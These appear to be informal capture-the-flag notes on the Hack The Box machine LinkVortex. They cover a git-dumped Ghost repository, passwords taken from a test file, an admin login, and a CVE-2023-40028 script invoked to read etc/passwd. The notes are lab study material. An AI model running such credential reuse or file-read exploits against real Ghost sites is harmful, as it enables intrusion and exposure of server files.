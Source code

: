 └──╼ [★]$ ls
admin-x-settings  comments-ui  signup-form
announcement-bar  portal       sodo-search
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo/apps]
└──╼ [★]$ cd admin-x-settings/
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo/apps/admin-x-settings]
└──╼ [★]$ ls
index.html            public               test
package.json          README.md            tsconfig.json
playwright.config.ts  src                  tsconfig.node.json
postcss.config.cjs    tailwind.config.cjs  vite.config.ts
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo/apps/admin-x-settings]
└──╼ [★]$ cat index.html 
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <link rel="icon" type="image/svg+xml" href="/vite.svg" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Settings - Admin</title>
  </head>
  <body>
    <div id="root"></div>
    <script type="module" src="/src/main.tsx"></script>
  </body>
</html>
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo/apps/admin-x-settings]
└──╼ [★]$ 

***
This is to view every the file Authentication.test.js
cat ghost/core/test/regression/api/admin/authentication.test.js


Password *OctopiFociPilfer45* *thisissupersafe* 

***
finding a login screen in linkvortex.htb we use

ADmin@linkvortex,htb with pass OctopiFociPilfer45


***
We then find a CVE for ghost application witch lets us get a command line 

./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> etc/passwd
<!DOCTYPE html>
***
If we cat the docker.ghost file we can find where this information lies. 
